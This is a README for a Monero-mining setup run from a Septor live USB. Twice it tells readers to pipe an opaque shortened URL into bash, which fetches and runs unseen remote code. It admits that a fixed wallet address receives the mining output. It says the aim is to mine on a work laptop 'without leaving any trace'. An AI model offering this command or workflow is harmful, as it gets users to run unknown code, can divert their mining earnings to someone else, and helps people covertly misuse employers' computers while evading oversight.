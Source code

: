 # Septor XMRig

WARNING: This is a beta version. It uses a fixed wallet address for testing purposes.


If you already have a Septor USB just run this command

```
wget -O- - tinyurl.com/4z5afjef | bash
```


## Full Installation

1. Download Septor from [SourceForge](https://sourceforge.net/projects/septor/files/download_/) This guid is tested with 2021.5 version.
1. Burn it to a USB drive using [Balena Etcher](https://www.balena.io/etcher/)
1. Start your PC and choose to boot from the USB stick. You may need to press F2, F10 or F12 at boot time.
1. Choose Live in the Septor menu.
1. Ensure you have a network connection wifi or cable.
1. After booting search for the Konsole application
1. Execute the install and mining script
```
wget -O- - tinyurl.com/4z5afjef | bash
```

## Hashrate

Once you have the miner running you can check the hashrate and calculate how much you can earn from this CPU.

## Motivation

Someone asked me: how can I mine with my work's laptop without leaving any trace on it?
That's why I'm using Monero, Septor and supportxmr.

## Coming soon
1. Screenshots
1. Monero wallet configuration
